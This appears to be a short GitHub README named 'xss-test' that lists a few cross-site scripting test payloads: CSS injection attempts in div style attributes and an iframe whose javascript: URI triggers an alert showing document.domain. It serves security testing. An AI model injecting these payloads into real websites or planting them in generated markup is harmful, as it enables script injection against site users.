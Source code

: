 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

<div style="font-family:foo}color=red;">HOLA


```

<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
